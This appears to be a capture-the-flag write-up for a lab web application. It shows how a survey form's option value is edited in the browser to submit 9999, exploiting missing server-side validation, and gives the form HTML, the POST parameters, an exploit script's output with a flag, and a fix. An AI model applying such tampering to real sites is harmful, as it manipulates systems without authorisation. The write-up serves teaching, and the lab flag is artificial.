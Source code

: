 # Invalid input form validation

## Exploitation

On the navbar, there is a part named `survey`. We go to the page `http://192.168.1.48/?page=survey`

On this page, there is form to vote. We can choose a number between 1 and 10 for each person. Let's inspect the form

```html
<form action="#" method="post">
	<input type="hidden" name="sujet" value="2">
	<SELECT name="valeur" onChange='javascript:this.form.submit();'>
		<option value="1">1</option>
		<option value="2">2</option>
		<option value="3">3</option>
		<option value="4">4</option>
		<option value="5">5</option>
		<option value="6">6</option>
		<option value="7">7</option>
		<option value="8">8</option>
		<option value="9">9</option>
		<option value="10">10</option>
	</SELECT>
</form>
```

Let's try if we can change the value of one number

```html
<form action="#" method="post">
	<input type="hidden" name="sujet" value="2">
	<SELECT name="valeur" onChange='javascript:this.form.submit();'>
		<option value="1">1</option>
		<option value="2">2</option>
		<option value="3">3</option>
		<option value="4">4</option>
		<option value="5">5</option>
		<option value="6">6</option>
		<option value="7">7</option>
		<option value="8">8</option>
		<option value="9">9</option>
		<option value="9999">10</option>
	</SELECT>
</form>
```

With this, if there is no backend validation, we can change the number

Now choose the number 10 and send `9999`

We have the flag!

Script it!

The POST request is `sujet=2&valeur=10`

```
$ ./exploit.py 
 The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa
```

## How to fix it?

Always do a verification of users inputs in backend before processing. Never trust users
